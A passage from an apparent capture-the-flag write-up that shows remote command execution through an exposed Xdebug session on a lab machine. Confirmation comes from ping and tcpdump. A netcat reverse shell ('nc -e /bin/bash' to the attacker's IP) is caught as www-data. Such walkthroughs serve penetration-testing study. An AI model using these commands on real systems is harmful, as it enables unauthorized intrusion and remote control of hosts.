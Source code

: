 

And we see result in tcpdump:



    root@kali# tcpdump -i 2 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    14:42:22.296409 IP 10.10.10.83 > kali: ICMP echo request, id 5413, seq 0, length 64
    14:42:22.296431 IP kali > 10.10.10.83: ICMP echo reply, id 5413, seq 0, length 64



Decoding the data that came back in the `CDATA` block, we'll see it's
part of the ping output:



    root@kali# echo cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA5NC4zNjEvOTUuMDcyLzk1Ljg2MS8wLjU2MiBtcw== | base64 -d
    round-trip min/avg/max/stddev = 94.361/95.072/95.861/0.562 ms



Even better, if we look at the curl command, which has not returned yet,
we get the output:



    root@kali# curl http://10.10.10.83 -H "Cookie: XDEBUG_SESSION=wpOCvcWXx5"
    PING 10.10.14.5 (10.10.14.5): 56 data bytes
    64 bytes from 10.10.14.5: icmp_seq=0 ttl=62 time=18.276 ms
    --- 10.10.14.5 ping statistics ---
    1 packets transmitted, 1 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 18.276/18.276/18.276/0.000 ms



### Shell

From the python script above, we'll give `nc -e` a try and get lucky
(since most hosts don't have the `-e` option):



    >> system("nc -e /bin/bash 10.10.14.5 8087")





    root@kali# nc -lnvp 8087
    listening on [any] 8087 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.83] 57586
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Script to get shell

Wrote script to get shell as www-data, `get_olympic_www_shell.py`

